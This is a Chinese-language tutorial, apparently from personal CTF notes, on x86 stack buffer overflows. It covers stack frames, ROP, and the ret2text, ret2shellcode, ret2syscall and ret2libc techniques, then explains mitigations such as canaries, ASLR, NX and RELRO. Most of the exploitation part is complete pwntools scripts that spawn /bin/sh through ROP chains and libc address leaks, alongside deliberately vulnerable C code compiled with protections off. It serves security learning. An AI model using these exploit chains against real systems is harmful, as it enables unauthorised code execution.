





# 栈介绍

栈是一种典型的后进先出 (Last in First Out) 的数据结构，其操作主要有压栈 (push) 与出栈 (pop) 两种操作，如下图所示（维基百科）。两种操作都操作栈顶，当然，它也有栈底。

栈在进程中的作用如下：

- 暂时保存函数内的局部变量。
- 调用函数时传递参数。
- 保存函数返回的地址。

**程序的栈是从进程地址空间的高地址向低地址增长的**，也就是说，栈底的地址是高地址，而栈顶的地址是低地址

在栈中有三个比较重要的寄存器，分别是ebp，esp，eip

- EBP：栈帧基址指针寄存器，存储栈底地址
- ESP：堆栈指针寄存器，存储栈顶地址
- EIP：指令寄存器，存储即将执行的程序指令的地址，不能像通用寄存器那样进行访问操作

当然不同架构寄存器不一样，例如x86/x64平台的`ESP寄存器`/`RSP寄存器`，以及ARM平台的`SP寄存器`

函数入栈顺序

实参N~1——> Caller函数返回地址——> Caller函数EBP——> Callee函数局部变量1~N

> 被调用函数的参数按照逆序依次压入栈内，然后将主调函数（caller）进行调用之后的下一条指令地址（EIP）压入栈用来保存主调函数的返回地址，再将调用函数的基地址（主调函数的EBP）压入栈内，然后将主调函数的ESP值赋给被调函数的EBP，然后改变ESP值来为被调函数局部变量预留空间。在调用结束后，将EBP值赋给ESP，使得ESP指向了被调函数的栈底，来释放局部变量；再将栈中主调函数的栈底地址弹出赋给EBP，然后弹出压入的下一条指令地址赋给EIP，这样就回到了主调函数的栈帧中。

可以参考：https://blog.csdn.net/qq_40410406/article/details/109616351

> 在程序的运行期间, 内存中有一块用来实现程序的函数调用机制的区域, 该区域是一块`LIFO`的数据结构区域, 我们通常叫其函数栈. 每个未退出的函数都会在函数栈中拥有一块数据区, 即函数的栈帧. 函数的调用栈帧中, 保存了相应的函数的一些重要信息: 函数中使用的局部变量、函数的参数, 另外还有一些维护函数栈所需要的数据, 比如`EBP`指针(指向“父函数”的调用栈帧), 函数的返回地址等.

关于栈与栈帧：https://zhuanlan.zhihu.com/p/77663680

简单来讲，栈帧就是一个函数执行的过程，当被调函数执行完毕后，会回到调用函数（caller）的栈中继续执行，也称会到父函数的栈帧

**基本指令**：

- PUSH 把目标值压栈，同时SP指针-1字长(32位机 4B 64位机 8B)，越PUSH栈顶越小
- POP 将栈顶的值弹出至目的存储位置，同时SP指针+1字长

- CALL 将当前的EIP压入堆栈；然后设置EIP指向被调函数代码开始处

- Leave 恢复主调函数的栈帧，等价于mov %ebp %esp（将ebp值赋给esp）；pop %ebp（弹出主调函数基地址赋给ebp）

- ret 从栈顶弹出返回地址（之前存入的EIP地址）到EIP，程序转到该地址处继续执行

常见寄存器有:

- 数据寄存器: EAX(累加器), EBX(基地址寄存器), ECX(计数器), EDX(用来放整数除法产生的余数)
- 变址和指针寄存器: ESI(源索引寄存器), EDI(目标索引寄存器)
- 指针寄存器: ESP(栈指针寄存器-其内存放着一个指针永远指向系统栈最上面一个栈帧的栈顶), EBP(基址指针寄存器-其内存放着一个指针永远指向系统栈最上面一个栈帧的底部)

# 栈溢出

栈溢出指的是程序向栈中某个变量写入的字节超过了这个变量本身所申请的字节数，从而导致与其相邻的栈中的变量的值被改变，最后填满了栈大小，塞满了esp，最后达到改变eip指针的值使其可以执行到任意地址，从而改变程序的执行流程。

## demo

```
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

这段代码本来的执行流程是从main函数开始执行，执行vulnerable函数，通过gets向s中读入数据，通过puts打印

现在来给他编译成一个可执行文件

```
gcc -fno-stack-protector -no-pie test.c -o stack_example
```

这里我们在gcc编译的时候把stacj-protector和pie关掉，这些都是栈的一些保护机制，后面会介绍

```
-fno-stack-protector: 不开启堆栈溢出保护, 即不生成canary.
-no-pie: 避免加载基址被打乱, 不同gcc版本对于PIE的默认配置不同, 可通过命令gcc -v来查看默认的开关情况.
```


将读入的数据打印，用checksec查看，发现关掉了我们gcc选中的机制


将文件丢进IDA反编译看看


可以看到缓冲区的长度一共是12，也就是0xC，esp的长度是8，然后就是eip的地方，我们需要往栈里面填充20个字节长度，然后再填入一个地址，就是eip将要执行的地址

接下来用pwndbg调试一下

```
b main		# 将断点下再mian函数，如果是地址则为 b *0xaaaaaa
r 	# 执行
n	# 步过
s	# 步入
c 	# 执行到下一断点
stack # 查看栈
```


当执行到gets函数的时候，先看看栈长什么样子


执行gets输入字符串，当输入很长的字符串时，观察栈的变化


可以看到最后ret的地址变成了a的ascii（因为我都输入的a）

在IDA中找到了success函数地址

所以构造exp

```
from pwn import *
p = process("./stack_example")

payload = b'a'*0xC + b'A' * 0x8 + p64(0x401156)

p.sendline(payload)
p.interactive()
```


得到了success函数打印的值

其实在vulnerable函数中看栈的信息也能看出来


0xC即为栈大小，这里是`-C到0`，下面的s是esp的大小，为8，r即return，所以填充0xC+0x8的长度就可以覆盖return的值

## 总结

### 寻找危险函数

通过寻找危险函数, 可以快速确定程序是否可能存在栈溢出, 以及存在的话, 栈溢出的位置在哪里. 常见的危险函数如下:

- 输入
  - gets
  - scanf
  - vscanf
- 输出
  - sprintf
- 字符串
  - strcpy
  - strcat
  - bcopy

### 确定填充长度

这一部分主要是计算我们所要操作的地址与我们所要覆盖的地址的距离. 常见的操作方法就是打开`IDA`, 根据其给定的地址计算偏移.

一般来说, 变量会有以下几种索引模式:

- 相对于栈基地址的的索引, 可以直接通过查看`EBP`相对偏移获得.
- 相对应栈顶指针的索引, 一般需要进行调试, 之后还是会转换到第一种类型.
- 直接地址索引, 就相当于直接给定了地址.

一般来说, 会有如下的覆盖需求:

- 覆盖函数返回地址, 这时候就是直接看`EBP`即可.
- 覆盖栈上某个变量的内容.
- 覆盖`bss`段某个变量的内容.
- 根据现实执行情况, 覆盖特定的变量或地址的内容.


变量s如果可以一直填充的话，就可以向高字节（栈底方向）填充，从ida中找出s到ebp的距离后，加上一个字长填充`previous ebp`，在填入的数据就是返回地址了，这样我们就可以返回到任意地址

# 例题

## 基本ROP

ROP(Return Oriented Programming)，主要的思想是在栈缓冲区溢出的基础上，利用程序中已有的小片段(gadgets)来改变某些寄存器或者变量的值，从而控制程序的执行过程。所谓的gadget基本是以ret为结尾的汇编指令。我们通过改变某些地址，使得ret的地址为我们想让他执行的地址。就和上面的例子一样。

https://github.com/ctf-wiki/ctf-challenges

### ret2text

这种情况就控制程序执行自身已有的代码，如上面例子，就是执行本身已有的其他函数。在题中都是使用"/bin/sh"来控制服务器从而获取flag。

程序下载链接: [ret2text](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text). 

首先来分析一下，这是一个32位的程序，并且没有开启canary和PIE，开了NX，也就是栈不可执行保护


通过IDA反编译


看到main函数使用get向s中读入数据，存在栈溢出，并且在一个secure函数中发现了对/bin/sh的调用


在IDA里面来看我们栈上的距离是0x64，esp是4个字节，应该填充0x68然后改变eip的值，但是却报错了


当用gdb来调试的时候，看到了EBP和ESP的值


来算一下EBP的值为0xffffd128，ESP的值为0xffffd0bc，两个的距离是0x6c，所以我们需要填充0x6c个字节，然后再填充/bin/sh的地址

```
from pwn import *
p = process("./ret2text")
# gdb.attach(p)
payload = b'a'*0x6c + b'A' * 0x4 + p32(0x0804863A)

p.sendline(payload)
p.interactive()
```


另外一种不用手动计算长度的方式，使用pwndbg的cyclic生成一串特定长度的字符串


输入后得到栈上的报错，看到了我们覆盖了EIP即deab，输入cyclic -l deab就能知道输入点到eip的距离


看到是112，即0x6c+0x4

当IDA与gdb冲突的时候，以gdb为准

### ret2shellcode

点击下载: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode)

这是个32位的程序


几乎没有开启任何保护, 并且有可读, 可写, 可执行段.


可以看到应该典型的栈溢出，同时将对应的字符串复制到`buf2`处

查看buf2在bss段0804A080


用gdb的vmmap可以看到0x804a000——0x804b000



这里可能有点问题，原本这里是有可执行权限的，这个段应该是rwx权限

如果这个bss段有执行权限的话，我们就可以把shellcode写入这个buf2，然后溢出到buf2的地址，这样就可以获取一个shell

```
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())	# 44个长度
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

### ret2syscall

现在很多时候其实都开启了NX栈上不可执行的保护，当没有后面函数的时候又该怎么办呢

我们可以在程序中找到一些小片段来改变某些寄存器的值，来达到执行函数的目的

gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程

**Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数**

**应用程序调用系统调用的过程是：**

1、**把系统调用的编号存入 EAX**

2、**把函数参数存入其它通用寄存器**

3、**触发 0x80 号中断（int 0x80）**

假如我们需要执行的代码为`execve("/bin/sh",NULL,NULL)`

可以去了解一下如何进行系统调用

来对应的库查看一下系统调用号

```
cat /usr/include/asm/unistd_32.h | grep execve
```


发现是11，也就是0xb，也就是说我们要执行上面的代码需要四个寄存器

eax 中应该存放 0xb。，ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数NULL，寄存器的值设置为 0。

所以现在需要做的就是让：

1. eax=0xb
2. ebx=/bin/sh 的地址
3. ecx=0
4. edx=0

接下来就是通过栈溢出找到对应的gadget

借助csdn上的图


假如我们通过栈溢出将eip覆盖为pop eax的地址，当程序返回的时候就会执行pop eax，将’aaaa’放到eax中，然后执行ret指令，将’bbbb’放入eip寄存器中，然后会执行地址为’bbbb’处的指令，可以看到，bbbb处的指令为xxxx，当执行完xxxx后，继续执行ret指令，然后会返回到cccc指令处，执行xxxx。system函数的本质也是一条条汇编指令的组合，如果我们能找到多个xxxx，ret结构的指令，将其连接在一起，就可以达到执行system函数的效果。

对于`execve("/bin/sh",NULL,NULL)`，我们可以这样去找，可以用ctf wiki的ret2syscall为例


32位程序，开启了NX保护，没有办法在栈上执行


ida中看到，可以直接栈溢出，但是没有找到后面函数

用ROPgadget找一下有没有可用的

```
ROPgadget --binary ./rop --only "pop|ret" | grep 'eax'
```


可以看到0x080bb196直接pop eax然后ret，可以直接选用这一个，其他的也可以控制eax

同理来看ebx

```
ROPgadget --binary ./rop --only "pop|ret" | grep 'ebx'
```


看到了这个同时可以对edx，ecx，ebx赋值的地方，0x0806eb90

接下来找一下`/bin/sh`这个字符串

```
ROPgadget --binary rop --string '/bin/sh'
```


ida也能搜到在0x080be408


然后需要int 80的调用

```
ROPgadget --binary rop --only 'int'
```



刚好有int 80，在0x08049421，现在几个需要的地址都找到了

```
pop_eax_addr = 0x080bb196
pop_ebcdx_addr = 0x0806eb90
sh_addr = 0x080be408
int_addr = 0x08049421
```

接下来就通过栈溢出构造exp，达到调用系统函数执行/bin/sh的目的


偏移量是112，使用来构造payload



每次ret的时候就相当于pop eip，所以会将栈上的数据先pop到对应的寄存器，然后ret的时候将地址pop到eip中，到下一个执行点

```
from pwn import *
p=process('./rop')
context(os='linux', arch = 'amd64', log_level = 'debug')
# p = gdb.debug('./rop', "break main")
# gdb.attach(p)
int_addr=0x8049421
bin_sh_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload=b'a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_addr)
# pause()
p.sendline(payload)
p.interactive()
```


执行流程可以参考[ctfwiki-pwn：Basic ROP(ret2syscall) - LuoSpider - 博客园 (cnblogs.com)](https://www.cnblogs.com/luocodes/p/13923416.html)

### ret2libc

#### 动态链接

关于linux的静态链接，编译出来的程序我们会看到所有使用过的函数，而动态链接则不会，动态链接拖进IDA中看到的内容就十分少

一般来说有关ret2syscall的都是静态编译出来的

```
#include <stdio.h>

foo(){
	printf("hello");
}

int main(){
	foo();
	puts("test");
	return 0;
}
```

编译一下

```
gcc -fno-pie -g -m32 -o dytest aaa.c
gcc -fno-pie -g -m32 --static -o statest aaa.c
```


可以发现静态编译何动态链接的大小都不一样，如果拖到IDA里面库看到内容很大的不同，这里我们只看动态链接


左边的函数都是plt结，在gdb中调试，也可以看到libc-2.31.so，其实函数就是从这个文件里面链接的


至于怎么链接到libc的函数呢

动态链接每个函数需要两个东西：

1、用来存放外部函数地址的数据段

2、用来获取数据段记录的外部函数地址的代码

对应有两个表，一个用来存放外部的函数地址的数据表称为**全局偏移表**（**GOT**, Global Offset Table），那个存放额外代码的表称为**程序链接表**（**PLT**，Procedure Link Table）


可执行文件里面保存的是 PLT 表的地址，对应 PLT 地址指向的是 GOT 的地址，GOT 表指向的就是 glibc 中的地址

可以发现，在这里面想要通过 plt 表获取函数的地址，首先要保证 got 表已经获取了正确的地址，但是在一开始就进行所有函数的重定位是比较麻烦的，为此，linux 引入了延迟绑定机制

具体的内容可以去b站看[[高清版\]_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1854y1y7Ro/?p=4&vd_source=5ddaf0a13575e9d0512f1c316baf5a0e)，也可以参考[Basic-ROP (yuque.com)](https://www.yuque.com/hxfqg9/bin/ug9gx5#5dvaL)

在了解了plt表和got表后，来看看CTF-WIKI的ret2libc

#### ret2libc1


32位的程序


明显的gets函数导致的栈溢出


找到了secure函数，调用了system，但是执行的命令并没有什么用，但是这个system的调用却在plt中引用了libc中的system

在IDA中看到了链接了libc的system函数


所以当我们跳转到08048460这个地址的时候就相当于调用了libc中的system函数

shift+f12看到了`/bin/sh`字符串，那就可以直接溢出到system的位置，调用`/bin/sh`，也可以用命令

```
strings ret2libc1 | grep /bin/sh
```

那要将`/bin/sh`作为参数传输到system函数里面应该怎么办，正常调用system函数需要一个返回值，所以要先在参数前面填充一个字长的数据，再跟上参数（记住system函数的参数在其上方两个字长处）

可以用函数的栈帧来理解这个问题，虚线就是栈上父函数和子函数的分界线，每个函数的第一个操作都是`push ebp`，来保存父函数的ebp，往上一个字长就是返回地址，再往上就是压入的参数，也就是我们要对函数进行赋值，就需要在第二个字长处填入参数

这样在system函数工作的时候，它就会向上寻找到对应的参数，而对于调用函数的参数，都是从右往左压栈，所以对于函数第一个参数就是在ret addr上面一个字长


payload如下

```
from pwn import *
p=process('./ret2libc1')
context(os='linux', arch = 'amd64', log_level = 'debug')

bin_sh_addr = 0x08048720
sys_addr = 0x08048460
payload = cyclic(112) + p32(sys_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload)
p.interactive()
```


#### ret2libc2

checksec看看，32位程序，只开启了NX保护


在IDA中看看，好像和上面一样，也有对libc中system函数的引用，



但是呢，并没有`/bin/sh`字符串


这种情况可以考虑向程序里面写入一个`/bin/sh`，一般来说，不会往栈上写，因为写到栈上后，我们就找不到了，要找一个可写的地方，最后还能获取，BSS段就是一个很好的选择


在bss段中看到了一个buf2变量，开辟了100个字节的长度



gdb调试看到bss段是可写的，接下来就要考虑如何向buf2这个变量中读入数据了

既然我们可以直接调用到system函数，那对于这个程序，栈溢出本来就是由gets触发的，那也可以直接调用gets向buf2中读入数据了

那大概的思路就出来了

- 通过栈溢出到gets函数，gets函数的参数是buf2，内容是`/bin/sh`
- gets函数返回到system@plt

栈分步应该是这样的，从上到下（低地址到高地址）：

- gets地址
- system地址（也是gets的返回地址）
- buf2（是gets的参数）
- buf2（是system的参数）

在IDA中找到gets@plt，system@plt，buf2的地址

payload如下，gets的参数为buf2，返回地址是sys_addr，system函数再向上寻找第二个字长，参数是buf2，然后发送`/bin/sh`，这样gets就读入了`/bin/sh`到bss的buf2变量，理解了上面为什么system向上两个字长是参数就明白了这个exp

```
from pwn import *
p=process('./ret2libc2')
context(os='linux', arch = 'amd64', log_level = 'debug')

get_addr = 0x08048460
sys_addr = 0x08048490
buf2_addr = 0x0804A080
payload = cyclic(112) + p32(get_addr) + p32(sys_addr) + p32(buf2_addr) + p32(buf2_addr)	
p.sendline(payload)
p.sendline('/bin/sh')
p.interactive()
```

#### ret2libc3


仍然的32位程序，只开了NX保护


明显的gets栈溢出，但是这次并没有后面函数，也没有`/bin/sh`字符串

 libc.so 动态链接库中的函数之间相对偏移是固定的。动态编译的程序中真实地址=偏移地址+基地址，不同版本的libc库，其偏移不同，我们我们可以通过libc库版本去寻找每个函数的偏移，泄露已知函数的真实地址去计算其基地址，从而构造出system的函数的真实地址。

当知道了了libc中一个函数的地址就能知道该程序利用的libc，从而知道其他函数的地址。所以获取libc中函数的地址的方法就是：通过got表泄露，即输出某个got表的内容，但是因为延迟绑定的原因，需要泄露已经执行过的函数地址，通过puts或write等函数打印出来


我们可以去泄露 __libc_start_main 的地址，这是因为它是程序最初被执行的地方，也可以直接泄露puts

```
from pwn import *
from LibcSearcher import *
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
# context(os='linux', arch = 'amd64', log_level = 'debug')
puts_plt = elf.plt['puts']	# 获取puts的plt地址
libc_start_main_got = elf.got['__libc_start_main']	# 获取__libc_start_main的got地址
# start_addr = elf.symbols['main']
start_addr = elf.symbols['_start']		# 获取程序的起始地址，在泄露got表内容后程序执行main函数
payload1 = cyclic(112) + p32(puts_plt) + p32(start_addr) + p32(libc_start_main_got)	# 溢出到puts打印got表内容，返回到main函数

p.sendlineafter("Can you find it !?", payload1)

libc_start_main_addr = u32(p.recv()[0:4])  #接收libc_start_main的真实地址，占4个字节

print("puts_plt:{}, libc_start_main_got: {}, start_addr: {}".format(hex(puts_plt), hex(libc_start_main_got), hex(start_addr)))
print("libc_start_main_addr: ", hex(libc_start_main_addr))
# libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
# libc_addr = libc_start_main_addr - libc.dump('__libc_start_main')
# system_addr = libc_addr + libc.dump('system')
# bin_sh_addr = libc_addr + libc.dump('str_bin_sh')
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)	# 寻找对应的libc
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')	# 获取libc基地址
system_addr = libcbase + libc.dump('system')	# 基地址加上偏移得到system函数的真实地址
bin_sh_addr = libcbase + libc.dump('str_bin_sh')

payload2 = cyclic(112) + p32(system_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()

# 0xf7d6bde0
```

泄露`__libc_start_main`的可能性太多了，可以直接泄露puts函数，直接成功了

```
from pwn import *
from LibcSearcher import *
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
# context(os='linux', arch = 'amd64', log_level = 'debug')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# start_addr = elf.symbols['main']
start_addr = elf.symbols['_start']
payload1 = cyclic(112) + p32(puts_plt) + p32(start_addr) + p32(puts_got)

p.sendlineafter("Can you find it !?", payload1)
# p.sendline(payload)
puts_real_addr = u32(p.recv()[0:4])  #接收libc_start_main的真实地址，占4个字节

print("puts_plt:{}, puts_got: {}, start_addr: {}".format(hex(puts_plt), hex(puts_got), hex(start_addr)))
print("puts_real_addr: ", hex(puts_real_addr))

libc = LibcSearcher('puts', puts_real_addr)
libcbase = puts_real_addr - libc.dump('puts')
system_addr = libcbase + libc.dump('system')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')

payload2 = cyclic(112) + p32(system_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()

```


有一个在线寻找libc的网站：https://libc.blukat.me/


在没有system和`/bin/sh`的情况下，就需要去泄露got表的内容，确定libc的版本，找到libc的基地址，然后通过偏移来确定system函数和str_bin_sh的地址

# 栈保护机制

在拿到一个程序的时候，我们通常会看他开启了什么保护机制，这是保护机制意味着什么呢，一般我们看到的几个保护机制有如下几个：

## Canary

Stack Protector（栈保护）也叫canary

```
gcc中的使用

-fstack-protector 启用保护，不过只为局部变量中含有数组的函数插入保护
-fstack-protector-all 启用保护，为所有函数插入保护
-fstack-protector-strong
-fstack-protector-explicit 只对有明确stack_protect attribute的函数开启保护
-fno-stack-protector 禁用保护.
-fno-stack-protector	# gcc编译时关闭canary
```


开启canary后，在previous ebp和变量中间会有一段canary是一段随机值，当变量s溢出覆盖到previous ebp的时候，会改变canary的值，然后会出现stack check failed的错误，这样来防止栈溢出

## PIE（ASLR）

地址随机化

一般情况下NX和地址空间分布随机化（ASLR）会同时工作。

引入PIE的原因就是让程序能装载在随机的地址，从而缓解缓冲区溢出攻击。

- 0 - 表示关闭进程地址空间随机化。
- 1 - 表示将mmap的基址，stack和vdso页面随机化。
- 2 - 表示在1的基础上增加栈（heap）的随机化。

```bash
#!bash

sudo -s 
echo 2 > /proc/sys/kernel/randomize_va_space
```

gcc编译器对于PIE的操作

```
-no-pie / -pie (关闭 / 开启) 
```

## NX

堆栈不可执行保护

NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。等同于Windows下的DEP。

gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加-z execstack参数。

```
-z execstack / -z noexecstack (关闭 / 开启)
```

## RELRO

设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。RELRO为” Partial RELRO”，说明我们对GOT表具有写权限。

开启与关闭：

```
-z norelro / -z lazy / -z now (关闭 / 部分开启 / 完全开启)
```


参考链接：

https://blog.csdn.net/Luminous_song/article/details/119388786

https://zhuanlan.zhihu.com/p/77663680

https://github.com/H3rmesk1t/Learning_summary/blob/main/BinarySec/Pwn%20Knowledge%20Learning/StackOverflow.md

https://github.com/ctf-wiki/ctf-challenges

[pwn小白入门05---ret2syscall_pwn ret2syscall-CSDN博客](https://blog.csdn.net/weixin_45943522/article/details/113924908)

https://www.cnblogs.com/luocodes/p/13923416.html

https://www.jianshu.com/p/560e440e294c

https://blog.csdn.net/ATFWUS/article/details/104552315